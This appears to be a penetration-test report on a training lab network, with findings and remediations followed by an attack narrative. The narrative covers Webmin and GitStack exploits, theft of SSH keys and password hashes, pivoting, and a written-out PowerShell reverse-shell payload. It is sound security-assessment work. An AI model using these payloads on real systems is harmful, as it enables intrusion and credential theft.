# Assessment Overview

## Introduction

Thomas Wreath (also referred to as 'the client') contracted Shrike InfoSec (also referred to as 'the contractor') to perform a grey-box penetration test.

The client briefed the contractor with the following information:

_"Two machines are on my home network that host projects that are worked on in my spare time. One of them has a webserver that's port forwarded. It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. A personal PC is also on that network, it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. It's technically a repurposed server."_

## Disclaimer
_This assessment was completed under the concept of a' point in time' analysis - any vulnerabilites or issues discovered throughout this engagement should only be considered as valid at the time of engagement. This report cannot guarantee that all potential vulnerabilities have been identified and should only be used as a supplimentary document when undertaking additional checks and security patching. It is not a 100% coverage report._

# Scope

The scope of this test is limited to a single public facing webserver and any connected services or internal devices. This webserver is hosted at the following address:

- 10.200.101.200

The following information was identified based on the information given to the contractor from the client:

- There are three machines on the network
- There is at least one public facing webserver
- There is a self-hosted git server somewhere on the network
- The git server is internal, so sensitive information could potentially be stored on this machine.
- There is a PC running on the network that has antivirus installed, which indicates that it is likely to be a Windows machine
- This Windows machine is implied to be running some variant of Windows Server OS.
- The (assumed) Windows PC cannot be accessed directly from the webserver.

# Systems Overview
The following systems were identified as part of the engagement:

| System Name | IP Address / URL | Notes |
|--|--|--|
| prod-serv | 10.200.101.200 / thomaswreath.thm | Public-facing CentOS webserver hosting a live version of the website stored on git-serv |
| git-serv | 10.200.101.150 | Windows Server running GitStack hosting the development build of website hosted at thomaswreath.thm |
| wreath-pc | 10.200.101.100 | Personal machine belonging to the client

# Executive Summary

The client's public facing web server was compromised using a publicly available exploit. This exploit allowed access to a root user on the machine. The compromised system was then used as an entrypoint to pivot throughout the rest of the internal network. Through this server, access to the internal GitStack server was gained. The GitStack server was vulnerable to a publicly available exploit resulting in access to the system privileged user. This lead to full system compromise and discovery of plain-text passwords. A proxy was established and was used to gain entry to the development webserver revealing a password-protected page. Using compromised credentials gathered from the previous machine, entry was granted. This webpage featured a picture upload function that utilised a weak content filter. This content filter was easily bypassed to upload a web shell disguised as an image to compromise the last target. A full network map was possible based on the compromised machines.

# Tools Used

The following tools were used during this engagement:

| Tool | Version |
|--|--|
| Kali Linux | 2022.4 |
| Nmap | 7.80 |
| Metasploit Framework | 6.2.13 |
| sshuttle | 1.1.0 |
| chisel | 1.7.7 |
| Evil-WinRM | 3.3 |
| exiftool | 12.40 |
| socat | 1.7.3.3 |
| Impacket | 0.10.0 |

# Findings Summary

## Unpatched Software/Services

**MiniServ 1.890 (Webmin httpd)**

Vulnerable to [CVE-2019-15107](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2019-15107)

**GitStack 2.3.10**

Vulnerable to [CVE-2018-5955](https://www.cvedetails.com/cve/CVE-2018-5955/)

---
**Severity**: Critical

**Description**: Both internal and external software are out of date with publicly available exploits featuring Remote Code Execution (RCE) exploits.

**Impact**: Lack of patches and outdated software reveals poor digital hygiene and allows for attackers to remotely exploit these services. These vulnerabilities have publicly available exploits that are easy to use and grant full system privileges, if successful.

**Suggested Remediation**: Update the currently installed versions to the latest supported version and ensure a regular software patching cycle is in place.

## Insecure Credentials

---
**Severity**: High

**Description**: Use of weak/easy to crack credentials were found throughout the engagement.

**Impact**: Weak credentials can be identified through password hash retrieval and easily broken. Through common methods, the client's passwords were identified and could be used to escalate privileges in other parts of the network.

**Suggested Remediation**: The client should follow the suggested policies and best practices found in the [NIST Digital Identity Guidelines (SP-800-63B)](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63b.pdf). This includes using a lengthy password instead of a short, complex one, avoiding any common or easily-identifiable phrases or information.

## Password Re-Use

---
**Severity**: High

**Description**: Previously identified credentials used for service running on personal machine.

**Impact**: Re-use of credentials allow for gaining entry to multiple systems or services within the network once an initial entrypoint has been established. A previously identified password allowed access to the password-protected file upload page on the client's personal machine.

**Suggested Remediation**: The client should rely on a password manager for generating and managing credentials and ensure that all credentials are sufficiently unique and follow the steps previously mentioned in '[Insecure Credentials](#insecure-credentials)'.

## Improper Privileges

---
**Severity**: High

**Description**: Software running on the webserver and git server as privileged, administrator or system accounts.

**Impact**: Services running on the webserver and git server were running as `root` and `NT Authority/SYSTEM` respectively. A successful exploit leads to full system privileges on these systems, due to the service/software running with more permissions than it should reasonably have.

**Suggested Remediation**: Services/Software that can run in the user context should do so, and the client should follow the [principle of least privilege](https://en.wikipedia.org/wiki/Principle_of_least_privilege), ensuring that this software/service runs with the bare minimum amount of permissions required.

## Unquoted Service Path

---
**Severity**: High

**Description**: The 'System Explorer Help Service' path is unquoted, which can be hijacked for malicious file execution.

**Impact**: A successful exploit on this service allowed for running a reverse shell payload with a higher privilege giving us access to the `NT AUTHORITY\SYSTEM` account.

**Suggested Remediation**: The path can be adjusted within the Windows Registry, adjusting the ImagePath for the service in question to use quotation marks (") around the full path.

See [MITRE T1574/009](https://attack.mitre.org/techniques/T1574/009/).

## Impersonate User Tokens

---
**Severity**: High

**Description**: A user can impersonate another user's token if SetImpersonateToken is enabled.

**Impact**: Impersonating another user's token can lead to a compromise of the local administrator account. In this case, we used Thomas' local account to impersonate the local administrator account.

**Suggested Remediation**: Disable SetImpersonateToken for Thomas' user account. This can be done through a Group Policy Object (GPO) and in the local security policies of the machine.

See [MITRE T1134/003](https://attack.mitre.org/techniques/T1134/003/)

## Unrestricted File Uploads

---
**Severity**: High

**Description**: A malicious attacker can use a file upload mechanism to gain access to the machine.

**Impact**: By crafting a malicious payload and bypassing the password-protection, a webshell was obtained by uploading a modified image file.

**Suggested Remediation**: Ensure that any file upload systems are using appropriately sophisticated filtering to ensure that modified payloads are unable to be uploaded.

## Personal Information Disclosure

---
**Severity**: Medium

**Description**: Personally Identifiable information (PII) regarding the client was identified on a public-facing website.

**Impact**: PII can be utilised as part of a social engineering of spearphishing campaign, leading to potential compromise of systems and services.

**Suggested Remediation**: Remove any PII from the public website.

## Error Page Information Disclosure

---
**Severity**: High

**Description**: Django webserver displays a 404 error page with expected request locations.

**Impact**: This error page reveals both what service is running on the machine and the location of the service's working directory. This allows for additional enumeration and led to a Remote Code Execution (RCE) vulnerability.

**Suggested Remediation**: Django should be configured to display a custom error page that does not reveal information about the service.

See [MITRE CWE-200](https://cwe.mitre.org/data/definitions/200.html).

# Attack Narrative

## Enumeration - Public Webserver

### Initial Nmap Scan
The IP given to us seems to be running a webserver. Running an initial nmap scan of first 15000 ports reveals four open ports.

_Command Used: `nmap -sC -sV -vv -oN wreath 10.200.101.200 -p 1-15000`_

| Port | Service |
|--|--|
|80| Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c))|
|443| Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c))|
|22| OpenSSH|
|10000| MiniServ 1.890 (Webmin httpd)|





Going to 10.200.101.200 in browser attempts to redirect to https://thomaswreath.thm/, but the site is unavailable. DNS has not been properly configured here.

By adding thomaswreath.thm to our `/etc/hosts` file, we are able to navigate to this within a browser.

### Webpage Fingerprinting

Upon visiting the website in the browser, we can identify the following personal information for the client:

---
**Address**: 21 Highland Court, Easingwold, East Riding, Yorkshire, England, YO61 3QL

**Phone Number**: 01347 822945

**Mobile Number**: +447821548812

**Email**: me@thomaswreath.thm

---
Visiting port `10000`, we are met with a Webmin login panel as identified by our Nmap scan. This version is vulnerable to [CVE-2019-15107](https://nvd.nist.gov/vuln/detail/CVE-2019-15107).


## Exploitation - MiniServ

As we know the version of Webmin running is vulnerable, we can find a publicly available exploit on GitHub.

_Exploit used: https://github.com/MuirlandOracle/CVE-2019-15107_

We clone this to our attacking machine and execute the payload to gain administrative access on the target machine.







Now that we have a basic shell, we can check the running user with `whoami` and identify that this service is running as `root`.



To establish a stable connection, we run a `netcat` listener on our attacking machine listening on port 4444.


We then go back to our Webmin temporary shell and run the `shell` command to obtain a full reverse shell.





### Extracting Admin Password

Now that we have access to the machine, we can extract the hashed password for the `twreath` account from `/etc/shadow` which we will crack later.



### Exfiltrating SSH Keys

We also can now extract any SSH keys from this machine. Looking in the `/root` directory reveals that the `.ssh/` is present.



We can access the private key to our attacking machine in order to gain SSH access to this target machine. 

As the shell was not very stable, we can just copy the contents of this file to a new file on our attacking machine and adjust the permissions.





### Tunnel Creation

Next, we opted to use `sshuttle` as it allows us to create a VPN-like connection to the internal network, making use of the private key we previously acquired.




## Enumeration - Internal Network

Now that we've established a solid connection to the webserver, we next needed to identify what the rest of the internal network looked like.

### Hosts File

The first place to check was the `/etc/hosts` file to see if any additional hostnames had been added here, but the file did not contain any custom entries.

### Previous connections

Using the command `arp -a`, we were able to identify any previously connected-to IP addresses from the webserver. This revealed the gateway of the network (`10.200.101.1`) as well as an IP address not seen previously (`10.200.101.150`).

### Nmap Scan

An nmap scan of the internal network was the next step, so we once again created a temporary webserver and this time hosted an nmap binary to upload to the target. This allowed us to scan the network internally from the webserver directly, rather than trying to tunnel our traffic through.

This nmap scan reveals two IP addresses:

- 10.200.101.100 (Unknown device)
- 10.200.101.150 (seen in [Previous Connections](#previous-connections))

Attempting to scan the `10.200.101.100` IP address shows that all ports are filtered, meaning it's inaccesible to us at this point.

Scanning `10.200.101.150` reveals that there are open ports on this machine.

## Enumeration - GitStack server

### Nmap Scan
After scanning `10.200.101.150`, we get a few services:
| Port | Service |
|--|--|
| 80 | http |
| 3389 | ms-wbt-server |
| 5357 | wsdapi |
| 5985 | wsman |



This reveals that there is both a webserver and RDP available on this machine.

### Webserver Fingerprinting

Upon visiting the IP address in our browser, we're met with a 404 error page. This page reveals that the underlying system is running a Django webserver. This page also discloses that GitStack is running on this server.



By navigating to `/gitstack` we find ourselves at a login page with a message about default credentials.



These default credentials don't work for this login prompt so instead we look for any vulnerabilities this page might have.
Using `searchsploit` we're able to identify that there is a vulnerability for this software.



## Exploitation - GitStack

### Preparing the Exploit

We download the script with `searchsploit -m php/webapps/43777.py` to our attacking machine. 

It needs to be converted in order to run properly on linux, so we run it through `dos2unix` to fix the formatting.



Then, we can open up the file and modify it to use the correct information. 

We modify the IP address to point to the `.150` address, and adjust the top of the file to be `#!/usr/bin/python2` in order to ensure Python runs the correct interpreter.





Once we're done preparing the exploit, we can go ahead and run it and see that it worked as expected. We can see that this GitStack process is running under the `nt authority/system` account. This confirms that the system is running Windows and that we have SYSTEM-level privileges with this account.



### Webshell access

The exploit also very handily adds a webshell to the system for us to further run commands. To do so, we can do a `curl` request to the webshell with an argument to run the command we want.


In doing this, we are also able to identify the hostname of this machine as `git-serv`.



### Testing network connection

The next step is to test whether or not the machine we've just compromised has access to the outside world (as we're connecting through a tunnelled connection).

By setting up a listener and attempting to ping our own attacking machine, we can see that none of the pings reach us.





This means we're going to have to proxy our traffic through this machine in order to access any other machines on the network.

### Socat Relay

Because we already have compromised the public facing webserver, we can use that as a jumping point in order to access the rest of the network.

We can upload `socat` to that web server using a python temporary webserver and turn it into a relay for our commands.



We need to open the firewall ports to allow for connections into it. As the system is running CentOS, we can use the `firewall-cmd` command to adjust it.



Now, we can use `socat` to listen on that port for traffic and pass it to a `netcat` listener on our port `443`.



### Reverse Shell with PowerShell

Now we have our `socat` listener, we need to create a reverse shell that can be passed through to socat, which in turn will get passed through to us. This looks like so (and vice versa):

Target Machine (Git Server) -> Port 18456 -> Socat (Web Server) -> Port 443 -> Attacking Machine

We can use a payload with our webshell set up previously to trigger a reverse shell on the target machine.

We use a Powershell reverse shell on our target - this creates a new TCP connection to the `18456` port on the public facing webserver, which is the one that `socat` is listening on, from the gitserver.

```bash
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.101.200',18456);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Before we can send this in our `CURL` command, though, we'll need to URL Encode it.

```bash
powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.101.200%27%2C18456%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

Finally, we send our exploit as a `curl` request to the webshell and end up with a connection back on our attacking machine with a full reverse shell.





### Adding a User and RDP Access

Now that we have a stable reverse shell, we can grant ourselves even better access by giving ourself RDP access. 

We add a new user account to the system and add it to the Administrators and the "Remote Management Users" groups.



### Evil-WinRM

An alternative route is to utilise the tool Evil-WinRM to access the machine via CLI using our new user account.



### Connecting to RDP

We can use `xfreerdp` to connect to the Windows machine using our username and password we set up previously and set up a user share to allow for file transfer.





### Mimikatz

Next, we can put `mimikatz` into our shared drive and access it directly on the system with PowerShell.

